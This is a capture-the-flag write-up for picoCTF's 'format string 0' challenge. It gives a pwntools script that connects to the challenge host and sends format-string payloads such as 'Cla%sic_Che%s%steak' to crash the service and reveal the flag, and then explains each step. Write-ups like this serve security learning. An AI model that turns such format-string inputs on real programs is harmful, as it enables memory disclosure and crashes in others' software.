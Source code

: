 # format string 0

```markdown
Tags: `Binary Exploitation` `format_string` `browser_webshell_solvable`
```

## **Description**

Can you use your knowledge of format strings to make the customers happy?

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

## **Solution Strategy**

```python
from pwn import *

host = "mimas.picoctf.net"
port = 50012
conn = remote(host, port)

conn.recvuntil("Enter your recommendation: ")

conn.sendline("Gr%114d_Cheese")

conn.recvuntil("Enter your recommendation: ")

conn.sendline("Cla%sic_Che%s%steak")

result = conn.recvall()

print(result.decode())

conn.close()
```

* The script uses the `pwntools` library to connect to a remote server (`mimas.picoctf.net`) on port `50012`.
* It establishes a connection and waits to receive a prompt indicating to enter a recommendation.
* It sends the first recommendation `"Gr%114d_Cheese"` to the server.
* After that, it waits for the next prompt to enter another recommendation.
* It sends the second recommendation `"Cla%sic_Che%s%steak"` to the server.
* Finally, it waits to receive the response from the server and prints it after decoding from bytes to string.
* The connection is then closed.

## Flag

<figure><img src="../.gitbook/assets/Pasted image (24).png" alt=""><figcaption></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
